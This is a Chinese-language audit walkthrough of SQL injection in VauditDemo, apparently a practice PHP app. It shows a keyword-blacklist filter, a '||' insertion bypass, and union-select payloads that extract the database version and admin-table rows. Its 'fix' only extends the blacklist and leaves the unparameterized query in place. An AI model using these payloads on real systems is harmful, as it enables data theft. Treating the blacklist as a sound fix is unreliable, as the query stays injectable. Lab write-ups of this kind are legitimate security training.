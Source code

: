 # VauditDemo SQL数字型注入

# 什么是SQL注入


![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tNc79gy1fi7lu2cs7bj31by0rkn21.jpg)

# 大局阅读：
## sqlwaf()函数:

```
/* Maybe Bypass尝试绕过*/
function sqlwaf( $str ) {
	//str_ireplace 搜索，replaced with the given replace value
	$str = str_ireplace( "and", "sqlwaf", $str );
	$str = str_ireplace( "or", "sqlwaf", $str );
	$str = str_ireplace( "from", "sqlwaf", $str );
	$str = str_ireplace( "execute", "sqlwaf", $str );
	$str = str_ireplace( "update", "sqlwaf", $str );
	$str = str_ireplace( "count", "sqlwaf", $str );
	$str = str_ireplace( "chr", "sqlwaf", $str );
	$str = str_ireplace( "mid", "sqlwaf", $str );
	$str = str_ireplace( "char", "sqlwaf", $str );
	$str = str_ireplace( "union", "sqlwaf", $str );
	$str = str_ireplace( "select", "sqlwaf", $str );
	$str = str_ireplace( "delete", "sqlwaf", $str );
	$str = str_ireplace( "insert", "sqlwaf", $str );
	$str = str_ireplace( "limit", "sqlwaf", $str );
	$str = str_ireplace( "concat", "sqlwaf", $str );  //字符串统一替换为 sqlwaf
	$str = str_ireplace( "\\", "\\\\", $str );
	$str = str_ireplace( "&&", "", $str );
	$str = str_ireplace( "||", "", $str );  // sel||ect -> select
	$str = str_ireplace( "'", "", $str );   // ' -> /
	$str = str_ireplace( "%", "\%", $str );
	$str = str_ireplace( "_", "\_", $str );
	return $str;
}
```

使用`sel||ect `这种形式可以绕过sqlwaf函数。


# 搜索敏感参数：

正则搜索`from(.*)= \$`

搜到在user/messageDetail.php里

```
if ( !empty( $_GET['id'] ) ) {
    $id = sqlwaf( $_GET['id'] ); //通过get方式获取id参数，通过sqlwaf()函数进行过滤
    //$id = $_GET['id']; id =1 uni||on se||lect 1,2,3,4,5,6,7,8 fro||m admin
    $query = "SELECT * FROM comment WHERE comment_id = $id";
```

# 构造payload：

## order by猜字段:

### 小技巧：

之前在Twitter刷到的一个小技巧：**只需两步**就可以猜到数据库某表的字段

- **先大范围再小范围**

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8tp3lgyyj30nw0ymjv5.jpg)

照猫画虎一下：


![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8u911yjej30wm17gjyo.jpg)

发现确切字段是4。

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8ua0uchbj311605gjt0.jpg)



> 之前试过手工注入一个大的数据库字段数很多，有100多，one by one 一个个增加到手软。。。。看来这技巧很实用。
> 
> ---
> MySQL 排序 order by 后面直接加列名或者**列的序号**
> `order by <column_one>, <column_two>; `


---


## union select 猜数据：



payload =`1 uni||on se||lect 1,2,3,4 fr||om admin`
经过sqlwaf过滤后为 `1 union select 1,2,3,4 from admin`

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8v4trpvqj31he0bq0ur.jpg)

payload =  `1 uni||on se||lect 1,version(),3,4 fr||om admin`

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8v4kw4inj31ii0bo76g.jpg)

payload =  `1 uni||on se||lect *,4 fr||om admin`


![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8v5obs0sj31kw0ccadb.jpg)

基于编写poc的payload：
payload =  `1 uni||on se||lect 1,md5(233),3,4 fr||om admin`

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8veuzcjgj31kw087wg4.jpg)

---

# 修复

敏感字符串统一替换为 `sqlwaf`

```
/* Maybe Bypass尝试绕过*/
//字符串统一替换为 sqlwaf
function sqlwaf( $str ) {
	//str_ireplace 搜索，replaced with the given replace value
	$str = str_ireplace( "and", "sqlwaf", $str );
	$str = str_ireplace( "or", "sqlwaf", $str );
	$str = str_ireplace( "from", "sqlwaf", $str );
	$str = str_ireplace( "execute", "sqlwaf", $str );
	$str = str_ireplace( "update", "sqlwaf", $str );
	$str = str_ireplace( "count", "sqlwaf", $str );
	$str = str_ireplace( "chr", "sqlwaf", $str );
	$str = str_ireplace( "mid", "sqlwaf", $str );
	$str = str_ireplace( "char", "sqlwaf", $str );
	$str = str_ireplace( "union", "sqlwaf", $str );
	$str = str_ireplace( "select", "sqlwaf", $str );
	$str = str_ireplace( "delete", "sqlwaf", $str );
	$str = str_ireplace( "insert", "sqlwaf", $str );
	$str = str_ireplace( "limit", "sqlwaf", $str );
	$str = str_ireplace( "concat", "sqlwaf", $str );  	$str = str_ireplace( "\\", "\\\\", $str );
	$str = str_ireplace( "&&", "sqlwaf", $str );
	$str = str_ireplace( "||", "sqlwaf", $str );  
	$str = str_ireplace( "'", "sqlwaf", $str );   
	$str = str_ireplace( "%", "\%", $str );
	$str = str_ireplace( "_", "\_", $str );
	return $str;
}

```

# 审计思路展示：



![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8vi6ub5tj30p20limyk.jpg)

